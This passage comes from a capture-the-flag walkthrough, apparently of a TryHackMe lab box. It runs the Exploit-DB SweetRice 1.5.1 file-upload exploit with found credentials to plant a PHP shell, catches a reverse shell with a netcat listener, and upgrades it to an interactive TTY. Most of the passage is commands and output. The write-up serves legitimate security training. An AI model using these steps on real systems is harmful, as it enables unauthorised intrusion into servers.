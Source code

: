- Shell created, let's uploaded with exploit. Running exploit is pretty simple, download it from Exploit DB and run it with python then provide all necessary inputs.

  ```
  python3 40716.py

  +-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
  |  _________                      __ __________.__                  |
  | /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
  | \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
  | /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
  |/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
  |        \/             \/     \/            \/        \/    \/     |                                                    
  |    > SweetRice 1.5.1 Unrestricted File Upload                     |
  |    > Script Cod3r : Ehsan Hosseini                                |
  +-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
  
  Enter The Target URL(Example : localhost.com) : 10.10.98.169/content
  Enter Username : manager
  Enter Password : Password123
  Enter FileName (Example:.htaccess,shell.php5,index.html) : shell.php5
  [+] Sending User&Pass...
  [+] Login Succssfully...
  [+] File Uploaded...
  [+] URL : http://10.10.98.169/content/attachment/shell.php5
  ```
  
- Beautiful, now you know the hustle, start listener and visit the shell location `http://10.10.98.169/content/attachment/shell.php5`.

  ```
  nc -lvnp 4444

  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.98.169] 48130
  Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
   18:17:43 up 58 min,  0 users,  load average: 0.00, 0.00, 0.00
  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  /bin/sh: 0: can't access tty; job control turned off
  $ whoami
  www-data
  ```

- We are in ladies and gents, now let's get those flags! I also changed it to putty shell since I love it and it's more stable.

  ```
  $ python3 -c 'import pty;pty.spawn("/bin/bash")'
  www-data@THM-Chal:/$ ^Z
  zsh: suspended  nc -lvnp 4444
                                                                                                                       
  stty raw -echo; fg
  [1]  + continued  nc -lvnp 4444
                                 export TERM=xterm
  www-data@THM-Chal:/$ whoami
  www-data
  ```

---